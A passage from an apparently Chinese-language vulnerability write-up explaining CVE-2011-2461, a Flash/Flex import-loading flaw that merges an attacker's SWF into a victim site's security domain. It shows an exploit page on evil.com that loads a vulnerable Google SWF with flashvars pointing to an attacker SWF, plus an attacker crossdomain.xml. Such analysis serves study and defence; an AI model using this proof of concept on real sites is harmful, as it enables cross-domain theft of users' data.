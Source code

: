 ```
 ….
//最终以当前的安全域加载外部模块
    loader.load(r, c);
}

```

以上就是整个代码流程，问题就发生在c.securityDomain = SecurityDomain.currentDomain; 这一句代码上。在Adobe官方手册对于securityDomain的解释上(6)，可以看到这样一段描述（非直译）： “同域情况下，即当1.com的FLASH A文件加载1.com下的FLASH B文件，B文件与A文件具有相同的安全域；而跨域情况下，即当1.com的FLASH A文件加载2.com下的FLASH B文件时，则会有两种选择：一种是默认情况下加载，此时B文件具有与A文件不同的安全域，换言之，两者是隔离的；另一种方法则是通过特定的函数调用或者特定属性的设置让被加载的B文件具有和A相同的安全域，这种加载方式被称为“导入式加载（import loading）”。 导入式加载通常有两种方法：一种是通过Loader的loadBytes函数。在context为默认值时，loadBytes将会把内容导入到当前的安全域内。其函数形式如下：

```
loadBytes(bytes:ByteArray, context:LoaderContext = null):void

```

另一种方法则是通过设置LoaderContext的securityDomain，然后再load，典型代码如下：

```
loaderContext.securityDomain = SecurityDomain.currentDomain;
loader.load(urlReq,loaderContext);

```

可以看出，cve-2011-2461 就是采用了第二种方式来进行了导入式加载。最终就会导致如下图所示的问题，可以看到我们在“黑客.com”的Flash B里编写恶意代码，将会被导入式加载“融入”到“目标.com”的Flash A里，从而可以读取“目标.com”下的内容。

![enter image description here](http://drops.javaweb.org/uploads/images/3b21029fb8cd10044b6e8ab38ab651bf0ec34395.jpg)

0x02 案例分析
=========

* * *

其实，知道上面的原理后，再来看google这个案例就不难理解了。首先是`https://www.google.com/wonderwheel/wonderwheel7.swf`

存在本文所说的问题，那么我们可以构造出以下代码

```
（http://evil.com/poc/test.html）：
     <i>Victim's agenda:</i>
     <textarea id="x" style="width: 100%; height:50%"></textarea>     
<object width="100%" height="100%"     type="application/x-shockwave-flash"     data="https://www.google.com/wonderwheel/wonderwheel7.swf">     
<param name="allowscriptaccess" value="always">
     <param name="flashvars" value="resourceModuleURLs=http://evil.com/poc/URLr_google.swf">     </object>

```

上面这个代码，使得https://www.google.com/wonderwheel/wonderwheel7.swf将会以“导入式加载”的方式将http://evil.com/poc/URLr_google.swf“融入”进来，即URLr_google.swf具有与wonderwheel7.swf相同的安全域。当然要记得在evil.com根目录下放置一个crossdomain.xml允许wonderwheel7.swf来加载它，像这样。

```
<?xml version="1.0"?>     <cross-domain-policy>     <allow-access-from domain="www.google.com" />     </cross-domain-policy>

```
